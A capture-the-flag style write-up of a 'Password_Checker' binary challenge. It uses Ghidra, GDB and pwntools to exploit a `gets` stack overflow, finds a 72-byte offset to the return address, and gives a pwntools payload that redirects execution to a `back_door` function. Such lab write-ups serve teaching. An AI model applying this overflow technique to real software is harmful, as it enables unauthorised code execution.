 # Password_Checker
`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) ![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra byts of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final payload looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
